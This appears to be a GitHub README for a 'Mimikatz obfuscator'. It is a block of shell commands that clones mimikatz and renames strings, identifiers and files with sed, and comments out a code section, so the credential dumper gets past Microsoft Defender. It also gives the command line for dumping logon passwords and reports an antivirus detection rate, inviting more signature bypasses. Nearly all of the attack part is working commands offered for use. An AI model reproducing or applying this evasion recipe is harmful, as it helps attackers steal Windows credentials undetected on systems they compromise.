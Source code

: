 # Simple Mimikatz "Obfuscator"

### **Tested in**
**Defender**: Security Intelligence (yeah...) Version **1.299.423.0**

**Windows**: **1903** (OS Build **18362.239**)

## Description 
The following set of commands, will download the latest version of mimikatz and make a few changes to the source code, in order to bypass Defender. I **have only tested with logonpasswords** (**logonpassword** after the changes...). If you want other modules, i suppose that one more "sed" will do the job...

I do not really use to use mimikatz from an executable (i really prefer the "Cobalt Strike" way), but i was curious how difficult could be to bypass the Defender. 

## It is that difficult 

    git clone https://github.com/gentilkiwi/mimikatz.git windows
    mv windows/mimikatz windows/windows
    find windows/ -type f -print0 | xargs -0 sed -i 's/mimikatz/windows/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/MIMIKATZ/WINDOWS/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/Mimikatz/Windows/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/DELPY/gweep/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/Benjamin/gweeperx/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/benjamin@gentilkiwi.com/@gweeperx/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/creativecommons/notcommons/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/gentilkiwi/MSOffice/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/KIWI/ONEDRIVE/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/Kiwi/Onedrive/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/kiwi/onedrive/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/DumpCreds/DumpCred/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/logonPasswords/logonPassword/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/ArgumentPtr/NotTodayPal/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/CallDllMainSC1/ThisIsNotTheStringYouAreLookingFor/g' 
    
    
    
    find windows/ -type f -name '*mimikatz*' | while read FILE ; do
    	newfile="$(echo ${FILE} |sed -e 's/mimikatz/windows/g')";
    	mv "${FILE}" "${newfile}";
    done
    find windows/ -type f -name '*kiwi*' | while read FILE ; do
    	newfile="$(echo ${FILE} |sed -e 's/kiwi/onedrive/g')";
    	mv "${FILE}" "${newfile}";
    done
    
    cd ./windows/windows/
    sed -i "0,/#if \!defined(_POWERKATZ)/! {0,/#if \!defined(_POWERKATZ)/ s/#if \!defined(_POWERKATZ)/\/*\r\n#if \!defined(_POWERKATZ)/}" windows.c
    sed -i "0,/#endif/! {0,/#endif/! {0,/#endif/ s/#endif/#endif\r\n*\//}}" windows.c

And probably not all of these are needed, but who cares.
## PoC
[https://www.youtube.com/watch?v=9AZqfepiAn4](https://www.youtube.com/watch?v=9AZqfepiAn4)
## How To

You can only invoke it with arguments:

> *windows.exe privilege::debug sekurlsa::**logonpassword***

## Commit

Although i targeted Defender, based on antiscan.me there is a **detection rate 9/26** . ~~I will try to bypass the 9 remaining~~  
If you find other signatures and you want to share, please feel free to commit.

## References

Of course all credits go to: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz) 

This guy created this amazing tool and gave it to all of us. 

I stole a lot from the following articles:

[https://weekly-geekly.github.io/articles/454758/index.html?fbclid=IwAR1tAuqz7SqYE9yXoIBOruVwEQ0BueQZqmL6Gse2T6Cb1eWBma7zIceJhXY](https://weekly-geekly.github.io/articles/454758/index.html?fbclid=IwAR1tAuqz7SqYE9yXoIBOruVwEQ0BueQZqmL6Gse2T6Cb1eWBma7zIceJhXY)

[https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/?fbclid=IwAR1LQjnmRzhXnlOtMfCbPVhYgUVdgu8xRiAwOJPg-7eIFjZgjEI8--548W0](https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/?fbclid=IwAR1LQjnmRzhXnlOtMfCbPVhYgUVdgu8xRiAwOJPg-7eIFjZgjEI8--548W0)



And i almost copied paste from the following:

[https://gist.github.com/JonnyBanana/96331b350f99d267e07da16246724517](https://gist.github.com/JonnyBanana/96331b350f99d267e07da16246724517)
thx JonnyBanana

Supper difficult ha?
